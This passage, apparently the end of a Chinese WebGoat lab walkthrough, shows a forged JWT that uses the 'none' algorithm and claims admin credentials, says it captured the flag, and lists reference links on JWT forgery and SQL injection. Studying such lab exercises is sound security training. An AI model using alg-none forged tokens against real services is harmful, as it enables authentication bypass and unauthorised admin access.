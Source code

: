 构造jwt 

```
ewogICJhbGciOiAibm9uZSIsCiAgInR5cCI6ICJKV1QiCn0.ewogICJzZWNyZXRpZCI6IFtdLAogICJ1c2VybmFtZSI6ICJhZG1pbiIsCiAgInBhc3N3b3JkIjogIjEyMzQ1NiIsCiAgImlhdCI6IDE2NDg3NDAwNTIKfQ.
```



获取到flag

![QQ截图20220331233702](image40/QQ截图20220331233702.png)





## 涉及资源



[JSON Web Tokens - jwt.io](https://jwt.io/#debugger-io)

[JDBC编程之预编译SQL与防注入](https://www.cnblogs.com/klyjb/p/11473857.html)

[JWT安全认证及伪造爆破 ](https://zhuanlan.zhihu.com/p/394138133)

[Java代码审计入门：WebGoat8（再会） - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/216457.html)

[ webgoat全关教程手册_](https://blog.csdn.net/zy15667076526/article/details/109560492)

[ WebGoat SQL注入之 Order by注入解题思路](https://blog.csdn.net/u013553529/article/details/82765062)